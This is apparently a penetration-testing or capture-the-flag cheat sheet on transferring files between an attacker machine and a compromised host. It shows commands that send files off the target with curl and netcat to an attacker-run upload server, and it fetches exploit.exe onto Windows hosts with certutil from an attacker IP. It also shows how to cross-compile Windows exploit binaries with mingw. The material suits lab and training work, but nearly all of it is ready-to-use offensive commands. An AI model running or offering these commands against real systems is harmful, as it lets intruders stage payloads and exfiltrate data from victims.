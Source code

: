 ##### Start [uploadserver](https://pypi.org/project/uploadserver/) with Python locally
```sh
python3 -m uploadserver 8888
```
##### POST files to local
```sh
curl -file="@/path/to/file" IP:8888/upload 
curl -X POST http://IP:8888/upload -F "files=@/path/to/file"
```
##### GET files to box
```sh
wget IP:8888/path/to/file
```

##### Without curl og wget
###### On box
```sh
cat file | busybox nc -l -p 8888
```
###### On local
```sh
wget IP:8888
```

## Windows
##### WGET
```sh
certutil -urlcache -f http://10.10.15.7:8000/exploit.exe exploit.exe
```
#### Compile exe files on linux
```sh
sudo apt install mingw-w64
i686-w64-mingw32-gcc C_FIL -o exploit.exe -lws2_32
```
